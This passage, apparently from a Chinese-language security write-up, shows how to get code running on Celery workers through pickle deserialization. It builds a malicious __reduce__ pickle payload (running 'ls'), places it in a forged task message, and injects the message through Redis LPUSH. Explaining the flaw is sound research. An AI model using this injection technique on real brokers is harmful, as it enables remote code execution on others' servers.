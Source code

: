 ```json
    'task': 'celery_simple.add',  // 任务执行的具体方法
    'utc': True
}
```

任务数据标明了哪一个注册的 Task 将会被调用执行，其执行的参数是什么等等。这里任务数据已经不在重要，从上面这个分析过程中我们已经得到了这么一个结论：Celery 分布式节点 worker 在获取到消息数据后，默认配置下会使用 `pickle` 对消息主体进行反序列化。

#### 3. 构造恶意消息数据

那么如果在 Broker 中添加一个假任务，其消息主体包含了之前能够进行命令执行的序列化数据，那么在 worker 端对其进行反序列化的时候是不是就能够执行任意代码了呢？下面就来证明这个假设。

这里直接对消息主体 `body` 进行构造，根据第一节回顾的 Python 序列化利用方式，构造 Payload 使得在反序列化的时候能够执行命令并将结果进行返回（方便后面验证）：

```python
import base64
import pickle
import commands
class LS(object):
    def __reduce__(self):
        return (commands.getstatusoutput, ('ls', ))
print(base64.b64encode(pickle.dumps(LS())))
```

运行程序生成具体 Payload 数据：

```
Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou
```

使用刚才分析过的消息数据，将消息主体的值替换为上面生成的 Payload 得到构造的假消息：

```json
{
    "body": "Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou",
    "headers": {},
    "content-encoding": "binary",
    "content-type": "application/x-python-serialize",
    "properties": {
        "body_encoding": "base64",
        "reply_to": "c8b55284-c490-3927-85c5-c68a7fed0525",
        "correlation_id": "1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe",
        "delivery_info": {
            "routing_key": "celery",
            "exchange": "celery",
            "priority": 0
        },
        "delivery_mode": 2,
        "delivery_tag": "027bd89a-389e-41d1-857a-ba895e6eccda"
    }
}
```

将假消息通过 Redis 命令行直接添加到 `celery` 队列任务中：

```bash
127.0.0.1:6379> LPUSH celery '{"body":"Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou","headers":{},"content-encoding":"binary","content-type":"application/x-python-serialize","properties":{"body_encoding":"base64","reply_to":"c8b55284-c490-3927-85c5-c68a7fed0525","correlation_id":"1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe","delivery_info":{"routing_key":"celery","exchange":"celery","priority":0},"delivery_mode":2,"delivery_tag":"027bd89a-389e-41d1-857a-ba895e6eccda"}}'
```

